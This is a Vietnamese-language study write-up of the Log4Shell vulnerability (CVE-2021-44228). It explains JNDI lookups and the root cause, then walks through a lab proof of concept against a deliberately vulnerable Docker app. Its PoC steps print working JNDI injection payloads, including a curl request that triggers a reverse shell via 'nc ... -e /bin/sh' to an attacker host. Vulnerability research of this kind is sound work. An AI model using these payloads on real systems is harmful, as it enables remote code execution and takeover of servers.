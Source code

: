 # Nghiên cứu lỗ hổng CVE-2021-44228 (Log4shell)

# **1. Mã khai thác**

```
${jndi:ldap://127.0.0.1:1389/Run}
```

# **2. Mô tả lỗi**

## 2.1. Giới thiệu về Log4shell

*Apache Log4j 2* là một thư viện Java phổ biến hỗ trợ việc log error messages của ứng dụng.

Log4shell là lỗ hổng phần mềm của *Apache Log4j 2* được published lần đầu với CVE-2021-44228, với nguyên nhân chủ yếu là do Improper Input Validation, cho phép remote attacker có thể chiếm quyền kiểm soát thiết bị trên Internet nếu thiết bị đó chạy Log4j 2.

Log4shell là tên gọi cho tập hợp các lỗ hổng của thư viện log4j bao gồm các CVE như: CVE-2021-44228, CVE-2021-45046, CVE-2021-4104, CVE-2021-42550, CVE-2021-45105, CVE-2021-44832.

Ở CVE-2021-44228, log4j phiên bản 2.0 tới 2.14.1 bị ảnh hưởng.

## 2.2. JNDI 

JNDI (Java Naming and Directory Interface) là 1 dịch vụ thư mục (directory service) cho phép chương trình Java có thể tìm kiếm dữ liệu bằng cách sử dụng name service.

![image-20220317142455864](image/image-20220317142455864.png)

JNDI cung cấp API cho ứng dụng để tương tác với LDAP, RMI,... Thông thường app Java sẽ không thể trực tiếp gửi request tới LDAP. 

JNDI Naming Reference: Để thu được Java object, ta có thể tiến hành serialized chúng và lưu dưới dạng nhị phân. Tuy vậy trong 1 số trường hợp, việc này sẽ không hiệu quả (File quá lớn,...) Naming references được sử dụng giúp cho việc lưu Java object trở nên dễ dàng hơn. Naming reference có 2 loại chính:

- Reference address: tham chiếu địa chỉ của object (`ldap://server/ref`), object sẽ được lấy thông qua địa chỉ đó.

  ![image-20220327154523522](image/image-20220327154523522.png)

- Remote Factory: remote factory class sẽ được trỏ tới bởi JNDI reference, sau đó theo địa chỉ JNDI remote class này sẽ được lấy từ remote factory và class sẽ được tải xuống và load. 

  ![image-20220327160154306](image/image-20220327160154306.png)

## 2.3. Root cause

Log4j có một tính năng dẫn tới lỗ hổng này, đó chính là tính năng lookup. Tính năng này được trigger bởi một chuỗi string đặc thù `${prefix:name}` . Thay vì in ra cả chuỗi ký tự này, đoạn string này sẽ được Log4j tiến hành lookup() .

```java
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;
 
public class Gday {
   static Logger logger = LogManager.getLogger(Gday.class);
 
   public static void main(String... args) {
      logger.error(args.length > 0 ? args[0] : "[no data provided to log]");
      System.out.println("Main is exiting.");
   }
}
```

![image-20220317153557009](image/image-20220317153557009.png)

Root cause của Log4shell nằm ở tính năng lookup() của JNDI, dẫn tới việc attacker tiến hành JNDI injection. 2 giao thức được hỗ trợ chủ yếu bởi JNDI là LDAP và RMI, khi thực hiện lookup() đều trả về 1 object.  Object này sẽ được server nạn nhân thực thi, dẫn tới RCE.

Đối với JNDI Injection, ta sẽ có 2 cách để tiến hành khai thác:

- Deserialization exploit:

  Đối với cách khai thác này, attacker có thể chèn mã độc với định dạng `${jndi:ldap://attacker/exploit}`, khi đoạn mã độc được log lại tại server nạn nhân, Log4j tìm thấy đoạn message và bắt đầu thực hiện request JNDI tới LDAP server  của `attacker` về `exploit` object. JNDI sẽ tiến hành lookup class mã độc tại LDAP server . LDAP sẽ trả về server nạn nhận một malicious serialized object, server nạn nhân sẽ tiến hành deserialize object, thực thi file `exploit.class` `->` Dẫn tới RCE. 

  ![image-20220317164249797](image/image-20220317164249797.png)

- JNDI Reference: Đối với cách khai thác JNDI Reference, attacker sẽ sử dụng 1 LDAP server và 1 HTTP server, sau khi chèn mã độc `${jndi:ldap://attacker/exploit}`, đoạn mã được log tại server nạn nhân, log4j tìm thấy đoạn mã này và tiến hành jndi lookup như kịch bản trên. JNDI sẽ gửi request tới LDAP server của attacker và được LDAP server trả về 1 JNDI reference, server nạn nhận nhận được JNDI reference này sẽ gửi request tới HTTP server của attacker để GET về file `exploit.class` và tiến hành thực thi mã độc này.

  

## 2.4. POC cho JNDI Reference exploit:

- Step 1: Chạy vuln app tại `192.168.16.105:8080`.

  ```
  docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
  ```

  ![image-20220330192433872](image/image-20220330192433872.png)

- Step 2: Sử dụng JNDIExploit để khởi chạy malicious LDAP server và HTTP server tại máy của attacker.

  ```
  java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.30.178.54 -p 8888
  ```

  ![image-20220330185556540](image/image-20220330185556540.png)

- Step 3: Tại máy attacker, một cửa sổ bật ncat, 1 cửa sổ sử dụng tiến hành gửi request có chứa đoạn mã độc để kích hoạt reverse shell.

  ```
  curl 192.168.16.105:8080 -H 'X-Api-Version: ${jndi:ldap://172.30.178.54:1389/Basic/Command/Base64/bmMgMTcyLjMwLjE3OC41NCA0NDQ0IC1lIC9iaW4vc2g=}'
  ```

- Step 4: Đoạn mã độc được log tại server nạn nhân, tiến hành JNDI lookup() với giao thức LDAP tới LDAP server attacker, tại đây các parameter trong URL được xử lý, cụ thể là Command được mã hóa Base64 được encode thành `nc 172.30.178.54 4444 -e /bin/sh`, và được gửi tới HTTP server của attacker, tại đây 1 file `exploit.class` được gen ra dựa trên Command được gửi tới từ LDAP server, server nạn nhân tiến hành GET file `exploit.class` và thực thi file, attacker lấy được shell tới server nạn nhân.

  ![image-20220330192032389](image/image-20220330192032389.png)

